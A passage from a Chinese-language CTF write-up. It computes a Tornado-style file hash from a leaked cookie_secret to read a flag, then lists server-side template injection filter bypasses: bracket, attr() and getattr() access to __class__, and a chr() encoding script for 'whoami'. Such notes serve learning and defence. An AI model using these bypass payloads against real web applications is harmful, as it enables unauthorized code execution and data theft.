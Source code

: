 得到了cookie_secret，写个php脚本计算一下

```
<?php
$cookie_secret='cd3d520f-51a9-4ad4-8fa3-066e80323ae8';
echo md5($cookie_secret.md5('/fllllllllllllag'));
?>#93c5b70dfec0fd6bfacf13e0973415ca
```

写入读取

![微信图片_202104171954376](https://tcakalr.gitee.io/tc/微信图片_202104171954376.png)

# ssti的一些绕过姿势

除了做题外还学习了ssti的一些绕过姿势

###### 过滤了**.**

可以使用[]，attr()，getattr()来绕

- []

```
例如可以用{{()[__class__]}}来代替{{().__class__}}
```

- attr()

```
用{{()|attr('__class__')}}代替{{().__class__}}
```

- getattr()

  ```
  {{getattr((),"__class__")}}代替{{().__class__}}
  ```

  

###### chr绕过

可以利用chr函数构造想要的ascii字符

网上有相应脚本可以利用

```
<?php
$a = 'whoami';
$result = '';
for($i=0;$i<strlen($a);$i++)
{
 $result .= 'chr('.ord($a[$i]).')%2b';
}
echo substr($result,0,-3);
?>
```
